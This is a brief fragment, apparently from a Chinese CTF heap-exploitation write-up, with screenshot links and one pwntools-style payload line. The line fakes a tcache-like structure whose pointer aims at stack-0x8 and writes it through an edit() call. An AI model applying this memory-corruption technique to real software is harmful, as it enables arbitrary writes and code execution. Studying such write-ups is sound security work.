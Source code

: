 [![](assets/1701606615-ead68497756ce1f9c8c44c2fff49a438.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213840-49b2f36c-83bc-1.png)

```bash
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stack-0x8)
edit(3,0x408,pl)
```

[![](assets/1701606615-a6de057e50724b828edd4cdd416906c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213850-4f9e67c0-83bc-1.png)  
然后直接再利用

